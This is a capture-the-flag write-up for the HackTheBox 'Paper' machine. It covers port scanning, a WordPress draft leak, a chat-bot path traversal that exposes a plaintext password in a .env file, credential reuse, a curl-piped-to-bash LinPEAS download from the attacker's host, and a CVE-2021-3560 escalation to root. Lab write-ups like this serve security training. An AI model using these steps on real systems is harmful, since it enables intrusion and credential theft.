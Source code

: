 ```yaml
---
title: HackTheBox - Paper
categories: htb wordpress
excerpt: | 
   Paper is a easy difficulty Linux machine.

feature_text: |
  ## Paper - Easy
  
feature_image: "https://picsum.photos/2560/600?image=733"
image: "https://picsum.photos/2560/600?image=733"
---
```


### Scanning process
sudo nmap -p- --open -sCV -n -Pn \<ip\> -oN targeted:
```
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: HTTP Server Test Page powered by CentOS
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-title: HTTP Server Test Page powered by CentOS
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods: 
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
```
Initially we don't have any ssh credential to access port 22 service. To see more information about the certificate used in ssl/http conection, you can use `openssl`. Openssl is a cryptography toolkit implementing the Secure Sockets Layer (SSL v2/v3) and Transport Layer Security (TLS v1) network protocols and related cryptography standards required by them. 

So running `openssl s_client -connect 10.10.11.143:443` we can see some information about the certificates:
> CN = localhost.localdomain, emailAddress = root@localhost.localdomain \
Verify return code: 19 (self signed certificate in certificate chain)

Go on with the reconnaissance phase, it would be interesting to launch `whatweb` to the tarjet. This is what we have in the http headers: 
> X-Backend[office.paper]

Add to your /etc/hosts file and check how it looks like. 

There is a blog page with comments and there is someone who advises that drafts are not secure... Maybe it's a clue, don't you think?

What content manager does the page use? Wordpress v5.2.3. Search for some vulnerabilities of this version. 


### Exploit vulnerabilities
Looking for an exploit of wordpress v5.2.3. There is one way to see unauthenticated password private post: that adding `?static=1` to a wordpress URL should leak its secret content.
`http://office.paper/?static=1` 

And there is a secret registration URL of new employee chat system: `http://chat.office.paper/register/8qozr226AhkCHZdyY`.
Time to fight with the Recyclops bot. He accepts several questions. Seaching a little bit you can find a special file with credential as plain text `recyclops file ../hubot/.env`. Files like .env usually have some enviornment variables like username or password in plaintext. 

> export ROCKETCHAT\_USER=recyclops \
export ROCKETCHAT\_PASSWORD=Queenofblad3s!23

Use this as dwight credential because it is possible that they are reusing credentials.

### Privilege Scalation
We will use LinPEAS. This is a script that search for possible paths to escalate privileges on Linux/Unix\*/MacOS hosts. The checks are explained on [book.hacktricks.xyz](https://book.hacktricks.xyz/linux-hardening/privilege-escalation).


Download it in your computer and then start a shared service with python `pyhton3 -m http.server 8080`. In the victim machine download this file and execute with bash 'on-the-fly': `curl http://<tuip>:8080/linpeas.sh | bash`
```
╔══════════╣ Sudo version                                                       
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version 
Sudo version 1.8.29                                                             
                                                                                
╔══════════╣ CVEs Check                                                         
Vulnerable to CVE-2021-3560                                                     
```
Get this CVE and download the poc.sh. Run it in the target machine and you will have a new user:pass --> secnigma:secnigmaftw. Doing `sudo bash` you will be root!

Congratulations.
